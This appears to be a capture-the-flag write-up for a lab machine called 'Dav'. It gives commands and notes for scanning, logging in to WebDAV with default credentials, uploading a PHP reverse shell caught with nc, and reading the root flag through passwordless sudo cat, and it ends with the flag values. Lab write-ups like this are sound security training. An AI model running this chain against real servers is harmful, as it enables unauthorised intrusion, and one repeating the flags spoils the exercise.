# Dav - Easy

```shell
nmap -T4 -p- -A -v 10.10.61.68

gobuster dir -u http://10.10.61.68 -w /usr/share/wordlists/dirb/common.txt -x txt,php,html,bak -t 50

hashcat -a 0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
#unable to crack hash

davtest -url http://10.10.61.68/webdav -auth wampp:xampp

cadaver http://10.10.61.68/webdav
#give creds

put reverse-shell.php

#setup listener before executing reverse shell
nc -nvlp 4444

#visiting the uploaded shell gives us reverse shell
whoami
#www-data

python -c 'import pty;pty.spawn("/bin/bash")'

ls /home
#check user directories

cd /home/merlin
#get user flag

#use linpeas.sh for privesc

sudo -l
#we can run cat as root

sudo cat /root/root.txt
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.18 (Ubuntu)

* Using feroxbuster to enumerate the webpage on port 80, we do not get anything on the home page.

* We do get a page /webdav, with status code 401 (unauthorized).

* Now, visiting /webdav, we are greeted with a basic http authentication.

* We can search for default webdav creds, we get results such as jigsaw:jigsaw, wampp:xampp and admin:admin

* Trying one of these creds allow access to /webdav.

* In /webdav, we get a file named passwd.dav, which contains a hash for username 'wampp'.

* Googling the format of hash shows that this is a Apache MD5 hash; we can use hashcat to crack it, but we are unable to.

* We can check for 'webdav exploits' on Google, and we get a few exploit results.

* We can follow the exploit given on NullByte blog; we need to upload a reverse-shell to /webdav and execute it.

* We can test if it works by using ```davtest``` - and we are able to upload PHP files.

* Using ```cadaver```, we can upload files to /webdav; by uploading reverse-shell file, we get shell on our listener as www-data.

* We have two users - merlin and wampp; the latter user does not have anything significant.

* We can get user flag from merlin's directory.

* linpeas.sh can be used to check for any privesc routes.

* Checking what commands we can run as sudo, we can see that ```cat``` can be run without any password as root.

* Using exploit from GTFObins, we can get root flag.

```markdown
1. user.txt - 449b40fe93f78a938523b7e4dcd66d2a

2. root.txt - 101101ddc16b0cdf65ba0b8a7af7afa5
```
